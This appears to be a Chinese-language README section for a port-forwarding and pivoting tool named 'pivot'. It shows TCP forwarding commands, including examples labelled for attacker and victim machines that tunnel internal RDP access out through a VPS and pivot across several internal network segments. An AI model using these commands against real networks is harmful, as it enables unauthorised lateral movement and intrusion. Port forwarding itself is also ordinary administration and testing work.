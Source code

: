 监听 `0.0.0.0:8888` 和 `0.0.0.0:9999`, 在两者之间转发流量.

*指定 `127.0.0.1:PORT` 以监听本地地址*

```bash
./pivot fwd -l 8888 -l 9999
```

监听 `0.0.0.0:8888`, 将流量转发到一个远程地址.

```bash
./pivot fwd -l 8888 -r 10.0.0.1:9999
```

连接 `10.0.0.1:8888` 和 `10.0.0.2:9999`, 在两者之间转发流量.

```bash
./pivot fwd -r 10.0.0.1:8888 -r 10.0.0.1:9999
```

在这种模式下, 指定 `-c` 可以设置最大 TCP 连接数 (默认为 32)

一个简单的内网端口转发的示例.

```bash
# 攻击者机器
./pivot fwd -l 8888 -l 9999

# 受害者机器
./pivot fwd -r 10.0.0.1:3389 -r vps:8888

# 攻击者现在可以通过 vps:9999 访问 10.0.0.1:3389
```

一个复杂的示例, 在内网中进行多层转发.

```bash
# A 机器 (10.0.0.1, 172.16.0.1)
./pivot fwd -r 10.0.0.10:3389 -l 7777

# B 机器 (172.16.0.2, 192.168.1.1)
./pivot fwd -r 172.16.0.1:7777 -r 192.168.1.2:8888

# C 机器 (192.168.1.2, DMZ)
./pivot fwd -l 8888 -r vps:9999

# 攻击者机器
./pivot fwd -l 9999 -l 33890

# 攻击者现在可以通过 vps:33890 访问 10.0.0.10:3389
```

注意 B 机器上的命令必须最后执行, 因为这种模式会检查两个远程地址的连通性.

### UDP 端口转发

UDP 的端口转发与 TCP 类似, 只需要添加 `-p udp` 参数.

**目前该功能还在实验性阶段, 可能不太稳定.**
